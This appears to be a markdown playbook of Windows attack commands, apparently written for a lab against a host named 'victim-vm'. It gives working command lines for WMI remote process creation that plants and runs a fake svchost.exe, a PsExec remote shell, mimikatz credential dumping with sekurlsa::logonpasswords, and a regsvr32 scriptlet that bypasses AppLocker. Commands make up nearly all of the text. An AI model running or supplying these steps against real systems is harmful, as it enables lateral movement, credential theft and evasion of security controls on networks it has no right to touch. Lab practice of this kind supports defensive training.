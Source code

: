 # Script

## Process Execution with WMI
> Use WMI to build a backdoor (See page 17/18 of [Abusing Windows Management Instrumentation by Matt Graeber](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf) for more information on this technique)
```
wmic /node:"victim-vm" process call create "cmd.exe /c copy c:\windows\system32\svchost.exe c:\malicious\svchost.exe"
wmic /node:"victim-vm" process call create "cmd.exe /c c:\malicious\svchost.exe"
```

## Lateral movement
> Start a remote shell on the victim, verify by running ```hostname``` and start mimikatz
```
c:\tools\psexec\PsExec.exe /accepteula \\victim-vm cmd
hostname
c:\tools\mimikatz\x64\mimikatz
```

> In mimikatz execute the following commands and verify if the hashes are visible
```
privilege::debug
sekurlsa::logonpasswords
exit
```

## Arbitrary code execution
> Use regsvr32 to run arbitrary code on the victim and bypass AppLocker (while in the remove shell)
```
cd c:\malicious
regsvr32.exe /s /u /i:C:\tools\test.sct scrobj.dll
```
